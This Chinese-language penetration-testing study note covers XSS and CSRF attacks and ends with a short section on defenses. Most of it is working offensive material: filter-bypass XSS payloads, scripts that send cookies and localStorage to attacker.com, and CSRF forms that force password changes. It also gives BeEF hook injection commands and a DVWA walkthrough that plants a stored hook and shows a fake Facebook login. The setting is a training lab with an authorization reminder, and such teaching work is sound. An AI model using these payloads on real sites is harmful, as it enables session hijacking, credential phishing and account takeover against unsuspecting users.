

# 05-XSS与CSRF攻击

## 目录
- [[#一、XSS跨站脚本攻击原理|一、XSS跨站脚本攻击原理]]
  - [[#1.1 XSS三种类型|1.1 XSS三种类型]]
  - [[#1.2 XSS利用向量|1.2 XSS利用向量（Payload）]]
- [[#二、beef浏览器利用框架|二、beef浏览器利用框架]]
  - [[#2.1 启动与控制面板|2.1 启动与控制面板]]
  - [[#2.2 攻击模块使用|2.2 攻击模块使用]]
  - [[#2.3 Hook注入方法|2.3 Hook注入方法]]
- [[#三、xsser自动化扫描|三、xsser自动化扫描]]
- [[#四、xsstrike高级XSS检测|四、xsstrike高级XSS检测]]
- [[#五、CSRF跨站请求伪造|五、CSRF跨站请求伪造]]
  - [[#5.1 攻击原理|5.1 攻击原理]]
  - [[#5.2 CSRF Payload示例|5.2 CSRF Payload示例]]
  - [[#5.3 csrftester检测|5.3 csrftester检测]]
  - [[#5.4 CSRF防御与绕过|5.4 CSRF防御与绕过]]
- [[#六、DVWA XSS + BeEF实战|六、DVWA XSS + BeEF实战]]
- [[#七、XSS防御与修复|七、XSS防御与修复]]

---

## 一、XSS跨站脚本攻击原理

跨站脚本攻击（Cross-Site Scripting, XSS）是指攻击者将恶意JavaScript代码注入到目标网站页面中，当其他用户浏览该页面时，恶意代码在用户浏览器中执行。为什么叫"XSS"？因为CSS已被Cascading Style Sheets占用。参见 [[../前端基础/前端基础总目录|前端基础]] 了解JavaScript和DOM基础。

```mermaid
flowchart TD
    subgraph 反射型XSS
        R1[攻击者构造恶意链接] --> R2[诱导受害者点击]
        R2 --> R3[服务器反射恶意脚本在响应中]
        R3 --> R4[浏览器执行恶意脚本]
    end
    subgraph 存储型XSS
        S1[攻击者提交恶意脚本] --> S2[服务器存入数据库]
        S2 --> S3[其他用户访问页面]
        S3 --> S4[服务器返回恶意脚本]
        S4 --> S5[浏览器执行恶意脚本]
    end
    subgraph DOM型XSS
        D1[攻击者构造恶意URL] --> D2[诱导受害者访问]
        D2 --> D3[客户端JS读取URL参数]
        D3 --> D4[通过DOM操作写入页面]
        D4 --> D5[浏览器执行恶意脚本]
    end
```



**XSS的危害（攻击者视角）：**
- 窃取用户Cookie（未设HttpOnly时）→ 会话劫持
- 窃取用户输入的敏感信息（键盘记录）
- 篡改页面内容（钓鱼）
- 重定向到恶意网站
- 利用浏览器漏洞进一步攻击
- 通过BeEF完全控制受害者浏览器
- 对内网进行扫描和攻击（浏览器代理）
- 窃取LocalStorage/SessionStorage数据
- 自动执行操作（转账、发帖、修改设置）

### 1.1 XSS三种类型

**类型1: 反射型XSS（Reflected XSS）**
恶意脚本通过URL参数传入，服务器将其直接反映在响应页面中。需要受害者点击特制的恶意链接。一次性触发，最常见。

```
搜索页面: /search.php?q=<script>alert('XSS')</script>
服务器代码: echo "搜索结果: " . $_GET['q'];
结果: 页面直接输出<script>标签，JS被执行
```

**类型2: 存储型XSS（Stored XSS）**
恶意脚本被永久存储在服务器上（数据库、文件、日志等），每当用户访问受影响的页面时脚本就会执行。持久化，危害最大，影响所有访问者。

```
留言板: 提交留言内容为 <script>alert('XSS')</script>
服务器将留言存入数据库 → 其他用户访问留言板时恶意代码执行
```

**类型3: DOM型XSS（DOM-based XSS）**
漏洞存在于客户端JavaScript中，恶意脚本通过DOM操作注入。服务器响应本身不包含恶意脚本。完全客户端，难以检测。

```javascript
// 漏洞代码
document.write("Hello " + location.hash.substring(1));

// URL: /page.html#
// 服务器响应不包含XSS，但客户端JS将hash写入DOM时触发
```

### 1.2 XSS利用向量（Payload）

**基础测试：**
```html
<script>alert(1)</script>
<script>alert('XSS')</script>
<script>prompt('XSS')</script>
<script>confirm('XSS')</script>
```

**绕过简单过滤：**
```html
<scr<script>ipt>alert(1)</scr</script>ipt>
<SCRIPT>alert(1)</SCRIPT>

<body onload=alert(1)>
<svg onload=alert(1)>
<input onfocus=alert(1) autofocus>
<video><source onerror=alert(1)>
<marquee onstart=alert(1)>
<details open ontoggle=alert(1)>
```

**编码绕过：**
```html

<a href="javascript:alert(1)">click</a>
<a href="&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;alert(1)">click</a>
```

**高级Payload（窃取Cookie）：**
```html
<script>
var img = new Image();
img.src = "http://attacker.com/steal.php?cookie=" + document.cookie;
</script>
```

**高级Payload（窃取LocalStorage）：**
```html
<script>
new Image().src = "http://attacker.com/log?" +
  encodeURIComponent(JSON.stringify(localStorage));
</script>
```

**高级Payload（模拟操作）：**
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', '/change_password.php', true);
xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
xhr.send('new_password=hacked&confirm_password=hacked');
</script>
```

---

## 二、beef浏览器利用框架

BeEF（Browser Exploitation Framework）专注于Web浏览器攻击。注入一段JavaScript Hook代码后，攻击者可对被Hook的浏览器执行各种攻击模块。

```
架构: 攻击者 → BeEF Panel(UI) → BeEF Server → Hook.js → Zombie浏览器
```

### 2.1 启动与控制面板

```bash
# 启动BeEF
sudo beef-xss

# 启动输出示例:
# [*] Hook URL: http://<IP>:3000/hook.js
# [*] UI URL:   http://<IP>:3000/ui/panel

# 访问控制面板
# Firefox → http://localhost:3000/ui/panel
# 默认凭据: beef / beef
```

**界面详解：**
- **Hooked Browsers：** 左侧面板，显示在线/离线僵尸浏览器
- **Details标签：** 浏览器详情（Browser, OS, Hardware, Components, Cookies, Page URI）
- **Logs标签：** 操作日志
- **Commands标签：** 可执行的攻击模块（核心！）

### 2.2 攻击模块使用

模块分类：Browser, Chrome Extensions, Debug, Exploits, Host, IPEC, Metasploit, Misc, Network, Persistence, Phonegap, Social Engineering。

**常用模块：**

| 模块 | 分类 | 功能 |
|------|------|------|
| Get Cookie | Browser | 获取当前域Cookie |
| Get Page HTML | Browser | 获取当前页面完整HTML |
| Pretty Theft | Social Engineering | 弹出假登录框（Facebook/Google等）|
| Redirect Browser | Browser | 重定向到钓鱼页面 |
| Detect Software | Host | 获取OS、浏览器、插件信息 |
| Detect Internal IP | Network | 获取用户内网IP（WebRTC泄露）|
| Port Scanner | Network | 通过浏览器扫描内网端口 |
| Confirm Close Tab | Persistence | 用户关闭标签时弹出确认框 |
| Get Clipboard | Host | 读取剪贴板内容（需权限）|
| Webcam | Misc | 获取摄像头权限提示 |

### 2.3 Hook注入方法

**方法1: 直接注入到XSS页面**
```html
<script src="http://<攻击机IP>:3000/hook.js"></script>
```

**方法2: 通过XSS漏洞自动传播**

**方法3: 结合其他漏洞（如LFI包含远程JS）**

**BeEF与Metasploit联动：**
```bash
msfconsole
load beef-xss
# Metasploit中可直接控制BeEF的Zombies
# 使用browser_autopwn模块自动攻击Zombie浏览器
```

---

## 三、xsser自动化扫描

xsser（Cross-Site Scripter）是XSS自动化检测和利用工具。

```bash
# 基本扫描
xsser --url "http://example.com/search.php?q=XSS"

# 自动模式（尝试所有参数）
xsser --url "http://example.com/search.php?q=test" --auto

# 指定注入参数
xsser --url "http://example.com/page.php" -p "search"

# POST请求测试
xsser --url "http://example.com/login.php" \
      -p "username" --data="password=test"

# 代理 / Cookie / UA
xsser --url "http://example.com/" --proxy "http://127.0.0.1:8080"
xsser --url "http://example.com/" --cookie="PHPSESSID=abc123"
xsser --url "http://example.com/" --user-agent="Custom/1.0"

# 选择攻击向量
xsser --url "URL" --auto --Xss             # XSS存储
xsser --url "URL" --auto --Xsr             # XSS反射

# 编码绕过
xsser --url "URL" --auto --Hex             # Hex编码
xsser --url "URL" --auto --Str             # 字符串编码
xsser --url "URL" --auto --Une             # Unicode编码

# 设置输出 / DropCookie确认
xsser --url "URL" --auto --output report
xsser --url "URL" --auto --Dcp "XSSVULN=1"

# 典型扫描
xsser -u "http://testphp.vulnweb.com/search.php?test=query" --auto
```

---

## 四、xsstrike高级XSS检测

xsstrike是高级XSS检测套件，特点：智能爬虫、基于浏览器的payload测试、强大的payload生成器、WAF检测、DOM XSS检测、模糊测试引擎。

```bash
# 基本扫描
xsstrike -u "http://example.com/page.php?param=test"

# 扫描特定参数
xsstrike -u "http://example.com/page.php" --params "search,q"

# POST请求
xsstrike -u "http://example.com/login" --data "username=admin&password=123"

# 爬取并扫描
xsstrike -u "http://example.com" --crawl

# 携带Cookie
xsstrike -u "http://example.com/page.php?param=test" \
         --headers "Cookie: PHPSESSID=abc123"

# 盲XSS
xsstrike -u "URL" --blind http://your-callback-server.com
```

**xsstrike特色：** 自动检测WAF并自适应绕过；基于上下文分析的Payload生成（不是简单预定义列表）；使用headless浏览器执行JS检测DOM XSS。

---

## 五、CSRF跨站请求伪造

### 5.1 攻击原理

CSRF（Cross-Site Request Forgery）利用已认证用户的身份，在用户不知情的情况下发送恶意请求。



**攻击条件：** 用户在目标网站A已登录（有效Cookie）；用户访问了恶意网站B；网站B包含指向A的请求；浏览器自动携带A的Cookie；请求成功执行。

### 5.2 CSRF Payload示例

**GET方式：**
```html

<script src="http://target.com/delete_account.php">
```

**POST方式（自提交表单）：**
```html
<html>
<body>
  <form action="http://target.com/change_password.php"
        method="POST" id="csrf_form">
    <input type="hidden" name="new_password" value="hacked123">
    <input type="hidden" name="confirm_password" value="hacked123">
  </form>
  <script>document.getElementById('csrf_form').submit();</script>
</body>
</html>
```

**AJAX方式（JSON CSRF）：**
```html
<script>
fetch('http://target.com/api/update_profile', {
  method: 'PUT',
  credentials: 'include',
  headers: {'Content-Type': 'application/json'},
  body: JSON.stringify({email: 'attacker@evil.com'})
});
</script>
```

### 5.3 csrftester检测

```bash
# 基本使用
csrftester -u http://example.com

# 指定目标页面
csrftester -u http://example.com/change_password.php
```

**csrftester工作流程：**
1. 启动csrftester（默认监听8008端口）
2. 配置浏览器代理：`127.0.0.1:8008`
3. 正常浏览目标网站并执行操作
4. csrftester录制操作并分析
5. 如果请求中没有不可预测的token → 生成CSRF POC

### 5.4 CSRF防御与绕过

| 防御方式 | 绕过思路 |
|---------|---------|
| CSRF Token（随机令牌） | 窃取Token（配合XSS）、Token可预测 |
| SameSite Cookie（Strict/Lax） | SameSite=None时可正常攻击 |
| Referer/Origin检查 | 空Referer（某些浏览器配置）、Referer可被修改 |
| 自定义请求头（X-Requested-With） | Flash利用、CORS配置错误 |
| 二次确认（输入当前密码） | 无法绕过（除非同时有XSS钓鱼）|

---

## 六、DVWA XSS + BeEF实战

**预设：DVWA运行中，security = low**

```mermaid
flowchart TD
    B[启动BeEF: sudo beef-xss] --> P[打开BeEF面板<br/>localhost:3000/ui/panel]
    P --> D[访问DVWA XSS Reflected]
    D --> T[测试: &lt;script&gt;alert(1)&lt;/script&gt;]
    T --> H["注入Hook:<br/>&lt;script src='http://IP:3000/hook.js'&gt;&lt;/script&gt;"]
    H --> Z[BeEF面板出现新Zombie]
    Z --> M1[获取Cookie]
    Z --> M2[获取页面HTML]
    Z --> M3[网络扫描: Detect Internal IP]
    Z --> M4[社工: Pretty Theft]
    Z --> S[存储型XSS: 留言板注入Hook]
```

**实战步骤：**

```bash
# Step 1: 启动BeEF
sudo beef-xss
# 记录 Hook URL: http://192.168.1.100:3000/hook.js

# Step 2: 打开BeEF面板 → Firefox → localhost:3000/ui/panel → beef/beef

# Step 3-4: DVWA XSS (Reflected) → 输入 <script>alert(1)</script> → XSS确认

# Step 5: 注入BeEF Hook
# 输入框输入:
# <script src="http://192.168.1.100:3000/hook.js"></script>

# Step 6: BeEF面板出现新Zombie → 查看Details
# Step 7-10: 执行各模块
#   - Browser → Get Cookie → Execute
#   - Browser → Get Page HTML → Execute
#   - Misc → Create Alert Dialog → Execute
#   - Network → Detect Internal IP → Execute

# Step 11: 存储型XSS
# DVWA → XSS (Stored) → Message输入:
# <script src="http://192.168.1.100:3000/hook.js"></script>
# → 每次任何人访问留言板都会被Hook！

# Step 12: 社会工程学
# Social Engineering → Pretty Theft → Dialog Type: Facebook → Execute
# → 用户浏览器弹出假Facebook登录框
```

---

## 七、XSS防御与修复

**安全开发应对措施：**

1. **输出编码：**
   ```php
   htmlspecialchars($input, ENT_QUOTES, 'UTF-8');   // PHP
   <c:out value="${input}"/>                          // JSP
   {{ input }}                                        // Django/Angular自动转义
   ```

2. **内容安全策略（CSP）：**
   ```
   Content-Security-Policy: default-src 'self'; script-src 'self'
   ```
   阻止内联脚本和外部脚本执行。

3. **HttpOnly Cookie：**
   ```
   Set-Cookie: session=xxx; HttpOnly; Secure; SameSite=Strict
   ```
   即使有XSS也无法通过`document.cookie`窃取。

4. 输入验证：白名单验证，拒绝危险标签
5. `X-XSS-Protection: 1; mode=block`（旧版浏览器）
6. DOM操作安全：避免 `innerHTML`, `document.write`，使用 `textContent`, `createElement`

**实战技巧：**
1. 遇到XSS过滤器 → 尝试编码/大小写/HTML5向量
2. HttpOnly导致无法读Cookie → 利用XSS做操作（改密码/发帖）
3. 反射型XSS需要社工 → 配合短链接服务
4. BeEF Hook被拦截 → 使用混淆/编码绕过
5. 结合XSS + CSRF → 使用XSS读取Token后转发CSRF请求

> **安全与法律提醒：** XSS测试和BeEF使用仅在授权环境进行；BeEF某些模块可能触发杀软告警；不要对公网目标注入Hook（除非有书面授权）；社工模块的使用需格外谨慎。

[[../总目录与快速查询|← 返回总目录]] | 上一模块：[[04-SQL注入攻击|04-SQL注入攻击]] | 下一模块：[[06-文件包含与命令注入|06-文件包含与命令注入]]
